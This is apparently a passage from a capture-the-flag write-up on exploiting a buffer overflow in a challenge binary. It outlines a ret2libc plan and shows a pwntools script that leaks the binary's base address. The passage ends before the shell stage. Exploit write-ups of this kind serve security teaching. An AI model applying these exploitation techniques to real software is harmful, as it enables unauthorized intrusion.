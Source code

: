 ![htb_func_option2.png](images/htb_func_option2.png)

But it doesn't check if the buffer `s` is full or not --> **Buffer Overflow**

I think that's enough bugs to exploit because the unknown_func() seems to be the same with this htb_func() so that's all bugs we can find. Let's move on!

# 2. Idea

We have bug **Buffer Overflow** and we have address of binary, we can use a technique called ret2libc to exploit this challenge. The idea is straightforward: Leak libc and get shell (this writeup is made after the ctf ended and the site was down so I just try it locally).

Summary:
- Stage 1: Leak libc address
- Stage 2: Get shell

# 3. Exploit

First, we will need to get the address of binary so we have this script:

```python
#!/usr/bin/python3

from pwn import *

def GDB():
	copy('x/50xg 0x007fffffffdf40')
	gdb.attach(p, gdbscript = '''
	# Stop at htb_func
	b*0x55555555535a
	b*0x5555555553a4
	# Break at memcpy of htb_func
	b*0x55555555550c
	# Break at ret of htb_func
	b*0x5555555556aa
	c
	''')

context.binary = exe = ELF('./convert_patched')
p = process(exe.path)

p.recvuntil(b' you ^^\n')
exe.address = u64(p.recv(6) + b'\0\0') - 0x1ada
log.info(hex(exe.address))
```
